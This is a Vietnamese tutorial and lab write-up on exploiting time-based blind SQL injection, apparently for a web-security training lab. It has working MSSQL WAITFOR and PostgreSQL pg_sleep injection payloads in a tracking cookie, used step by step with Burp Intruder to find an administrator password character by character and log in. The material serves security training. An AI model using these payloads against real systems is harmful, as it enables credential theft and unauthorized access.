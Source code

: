 # Exploiting blind SQL injection by triggering time delays

Nếu ứng dụng bắt lỗi từ cơ sở dữ liệu khi thực thi truy vấn SQL và xử lý chúng một cách an toàn, thì sẽ không có sự khác biệt nào trong phản hồi của ứng dụng. Điều này có nghĩa là kỹ thuật gây lỗi có điều kiện trước đó sẽ không hiệu quả.

Trong tình huống này, có thể khai thác lỗ hổng bind SQL Injection bằng cách **kích hoạt độ trễ thời gian** tùy thuộc vào việc điều kiện chèn vào có đúng hay không.

# Exploiting blind SQL injection by triggering time delays - Continued

Các **kỹ thuật kích hoạt độ trễ thời gian** phụ thuộc vào loại cơ sở dữ liệu đang sử dụng. Ví dụ, trên Microsoft SQL Server, có thể sử dụng các truy vấn sau để kiểm tra điều kiện và kích hoạt độ trễ nếu biểu thức điều kiện đúng:

    '; IF (1=2) WAITFOR DELAY '0:0:10'--  
    '; IF (1=1) WAITFOR DELAY '0:0:10'--  

- Truy vấn đầu tiên **không kích hoạt độ trễ**, vì điều kiện **1=2** là sai.

- Truy vấn thứ hai **kích hoạt độ trễ 10 giây**, vì điều kiện **1=1** là đúng.

**Khai thác để trích xuất dữ liệu**

Sử dụng kỹ thuật này, có thể **trích xuất dữ liệu** bằng cách kiểm tra từng ký tự của giá trị **Password**:

    '; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--  

- Nếu mật khẩu của tài khoản **Administrator** bắt đầu bằng **một ký tự lớn hơn 'm'**, truy vấn sẽ kích hoạt độ trễ, cho phép kẻ tấn công suy luận giá trị thực tế của mật khẩu từng ký tự một.

**Lưu ý**: Có nhiều cách khác nhau để kích hoạt độ trễ trong truy vấn SQL, và mỗi loại cơ sở dữ liệu sẽ có các phương pháp riêng.

# Lab: Blind SQL injection with time delays and information retrieval

![img](181)

Truy cập lab: 

![img](182)

Chọn category Gifts và intercept request này: 

![img](183)

Website có sử dụng Tracking cookie để theo dõi hành vi của người dùng. 

Thay giá trị TrackingId thành: 

    x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END-- 

![img](184)

=> Send request và để ý website mấy 10s để response: 

![img](185)

Thay đổi truy vấn thành:

    x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--

![img](186)

Send request, để ý lần mày website không chờ mà phản hồi luôn: 

![img](187)

=> Có thể test một điều kiện boolean để kiểm tra kết quả. Thay đổi truy vấn thành: 
    
    x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

Send request, để ý phải chờ 10s thì website mới phản hồi => Có username administrator: 

![img](188)

Tiếp theo cần xác định độ dài password, dùng truy vấn: 

    x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

Send request, để ý phải chờ 10s thì website mới phản hồi => Độ dài password > 1:

![img](189)

Thay đổi truy vấn thành: 

    x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>20)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

Send request, website không cần chờ 10s mà phản hồi luôn => độ dài password là 20. 

![img](190)

Tiếp theo cần thử từng ký tự tương ứng với từng vị trí trong password, chuyển request sang Intruder và thay đổi truy vấn thành: 

    x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

![img](191)

Chọn 'a' làm giá trị để brute-force: 

![img](192)

Cài đặt payload:

![img](193)

Cài đặt Resource pool: 

![img](194)

=> Start attack: 

Xem xét kết quả tấn công để tìm giá trị của ký tự tại vị trí đầu tiên. Thấy một cột trong kết quả có tên **Response received**. Cột này thường chứa một số nhỏ, biểu thị số mili-giây mà ứng dụng mất để phản hồi.

Một trong các hàng sẽ có giá trị lớn hơn trong cột này, khoảng 10.000 mili-giây. Payload hiển thị trong hàng đó chính là giá trị của ký tự tại vị trí đầu tiên.

![img](195)

=> Ký tự đầu tiên của password là **m**. Làm tương tự với các ký tự còn lại. 

Tìm được password: m1p43t2nz7ylkkgmci42

Login tài khoản administrator và solved bài lab: 

![img](196)

1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20
m1p43t2nz7ylkkgmci42